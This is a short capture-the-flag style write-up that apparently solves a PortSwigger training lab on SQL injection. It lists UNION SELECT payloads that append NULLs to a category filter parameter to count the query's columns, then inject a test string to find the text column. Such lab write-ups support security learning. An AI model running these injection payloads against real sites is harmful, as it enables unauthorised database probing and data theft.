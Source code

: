 ```yaml
---
title: PortSwigger - SQLi 4 - Finding column containing text
date: 2023-03-03
categories: [PortSwigger, Challenges]
tags: [portswigger, web, sqli]
---
```


Difficulty : `Practitioner`

## 🎯 Goal

To solve the lab, perform a SQL injection UNION attack that returns an additional row containing the value provided.

Value provided: '`abc`'

## ✅ Solution

First we need to know how many columns are returned by the query:

````text
<website>/filter?category=Pets' UNION SELECT NULL--    # error!
<website>/filter?category=Pets' UNION SELECT NULL,NULL--    # error!
<website>/filter?category=Pets' UNION SELECT NULL,NULL,NULL--    # works
<website>/filter?category=Pets' UNION SELECT NULL,NULL,NULL,NULL--    # error!
````

We now know there are 3 columns. Time to find which one contains string data:

````text
<website>/filter?category=Pets' UNION SELECT 'abc',NULL,NULL--    # error!
<website>/filter?category=Pets' UNION SELECT NULL,'abc',NULL--    # works
<website>/filter?category=Pets' UNION SELECT NULL,NULL,'abc'--    # error!
````

The second column contains string.
